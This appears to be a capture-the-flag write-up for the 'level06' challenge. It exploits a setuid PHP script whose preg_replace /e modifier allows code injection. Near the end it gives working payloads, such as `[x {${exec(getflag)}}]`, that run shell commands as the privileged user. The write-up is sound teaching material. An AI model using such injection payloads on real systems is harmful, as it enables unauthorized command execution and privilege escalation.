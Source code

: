 # level06

```bash
ls -l
# -rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
# -rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```
We understand that `level06` has the `flag06` rights and launches `level06.php`

```php
#!/usr/bin/php
<?php
function y($m) {
  $m = preg_replace("/\./", " x ", $m);
  $m = preg_replace("/@/", " y", $m);
  return $m;
}

function x($y, $z) {
  $a = file_get_contents($y);
  $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
  $a = preg_replace("/\[/", "(", $a);
  $a = preg_replace("/\]/", ")", $a);
  return $a;
}

$r = x($argv[1], $argv[2]);
print $r;
?>
```

```
The program takes 2 arguments,
  - The first one is a path to a file which will be read
  - The second one isn't used
If the content of the file matches a certain regex, the expression will be
evaluated (`/e`), calling the function y but we don't care about the rest.
We just have to give a file with getflag as the second group of the regex
The second group is inserted in a string, we have to find out how to run a cmd
```

> php call function in string
[In PHP, How to call a function interpolated in string?](https://stackoverflow.com/questions/10002652/in-php-how-to-call-a-function-interpolated-in-string)
=> We can run php code inside string with `{}`

Write into `/tmp/a` and then `./level06 /tmp/a a`:
```
[x {${exec(whoami)}}]
[x {${exec(getflag)}}]
```
